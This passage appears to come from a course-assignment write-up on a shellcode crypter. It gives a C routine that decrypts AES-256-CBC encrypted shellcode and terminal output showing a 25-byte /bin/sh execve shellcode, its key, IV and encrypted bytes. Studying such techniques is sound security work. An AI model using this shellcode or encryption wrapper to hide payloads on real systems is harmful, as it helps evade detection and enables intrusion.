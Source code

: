 ~~~ c
{
  ERR_print_errors_fp(stderr);
  abort();
}

//decryption function for AES 256 with a 128 bit initialization vector
int decrypt(unsigned char *encrypted, int encrypted_len, unsigned char *key, unsigned char *iv, unsigned char *decrypted)
{
  EVP_CIPHER_CTX *ciphertext; //openssl EVP ciphertext structure

  int len, decrypted_len;

  //create and initialize the context
  if(!(ciphertext = EVP_CIPHER_CTX_new()))
    handleErrors(); //error handler

  //initialize the decryption operation for AES 256 with a 128 bit initialization vector
  EVP_DecryptInit_ex(ciphertext, EVP_aes_256_cbc(), NULL, key, iv);

  EVP_DecryptUpdate(ciphertext, decrypted, &len, encrypted, encrypted_len); //decrypt shellcode

  decrypted_len = len; //decrypted shellcode length

  EVP_DecryptFinal_ex(ciphertext, decrypted + len, &len); //finalize encryption

  decrypted_len += len; //decrypted shellcode length

  EVP_CIPHER_CTX_free(ciphertext); //clean up

  return decrypted_len;
}
~~~

### Compiling and Executing
First, encrypt.c is compiled and then executed. The 256 bit AES key and 128 bit initialization vector used to encrypt the shellcode are displayed, along with the shellcode in it's original and encrypted forms.

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ gcc encrypt.c -l crypto -o encrypt
skawa@ubuntu:~/Desktop/code/assignment/assignment7$ ./encrypt
[+] AES 128 bit IV: KSB1FebW397VI5uG
[+] AES 256 bit Key: PKdhtXMmr18n2L9K88eMlGn7CcctT9Rw
[+] Original Shellcode (25 bytes):
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[+] Encrypted Shellcode (32 bytes):
\xb0\x69\x09\xde\xc5\x63\x0e\x69\x5c\xd1\x7e\x34\xf3\xc1\x7b\x28\x6c\x47\x48\xd4\x5b\x83\x82\x6b\x4b\xb5\x52\x47\xb1\x3e\xf2\x70
~~~
